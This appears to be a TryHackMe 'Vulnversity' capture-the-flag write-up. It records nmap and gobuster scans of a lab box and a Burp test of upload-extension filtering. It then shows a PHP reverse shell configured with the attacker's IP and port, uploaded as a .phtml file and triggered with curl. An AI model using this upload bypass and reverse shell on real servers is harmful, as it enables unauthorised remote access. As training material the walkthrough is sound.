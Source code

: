 tryhackme | vulnversity

10.10.33.213 


writeups:

https://unicornsec.com/home/tryhackme-vulnversity


#### nmap scan:

```bash
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack vsftpd 3.0.3
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDYQExoU9R0VCGoQW6bOwg0U7ILtmfBQ3x/rdK8uuSM/fEH80hgG81Xpqu52siXQXOn1hpppYs7rpZN+KdwAYYDmnxSPVwkj2yXT9hJ/fFAmge3vk0Gt5Kd8q3CdcLjgMcc8V4b8v6UpYemIgWFOkYTzji7ZPrTNlo4HbDgY5/F9evC9VaWgfnyiasyAT6aio4hecn0Sg1Ag35NTGnbgrMmDqk6hfxIBqjqyYLPgJ4V1QrqeqMrvyc6k1/XgsR7dlugmqXyICiXu03zz7lNUf6vuWT707yDi9wEdLE6Hmah78f+xDYUP7iNA0raxi2H++XQjktPqjKGQzJHemtPY5bn
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHCK2yd1f39AlLoIZFsvpSlRlzyO1wjBoVy8NvMp4/6Db2TJNwcUNNFjYQRd5EhxNnP+oLvOTofBlF/n0ms6SwE=
|   256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqh93OTpuL32KRVEn9zL/Ybk+5mAsT/81axilYUUvUB
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  syn-ack Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
|_  0/4 checks are positive: Host is CLEAN or ports are blocke
```



#### dirbuster scan: 

`gobuster dir -u http://10.10.33.213/3333 -w /usr/share/wordlists/dirb/common.txt -t 4 -o dirb.txt`

```bash
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/css                  (Status: 301) [Size: 317] [--> http://10.10.33.213:3333/css/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.33.213:3333/fonts/]
/images               (Status: 301) [Size: 320] [--> http://10.10.33.213:3333/images/]
/index.html           (Status: 200) [Size: 33014]
/internal             (Status: 301) [Size: 322] [--> http://10.10.33.213:3333/internal/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.33.213:3333/js/]
/server-status        (Status: 403) [Size: 302]
```

#### upload/text extension filtering using burpsuite: 

Burpsuite->Connect ProxyIntercepter->Test Extensions


#### Upload .phtmml php payload
use payload from `/usr/share/webshells/php/php-reverse-shell.php`

edit following values (using tun0 network IP)

```bash
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.6.16.52  netmask 255.255.128.0  destination 10.6.16.52
```


```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.16.52';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Upload file to and curl it

`curl http://10.10.33.213:3333/internal/uploads/php-reverse-shell.phtml`





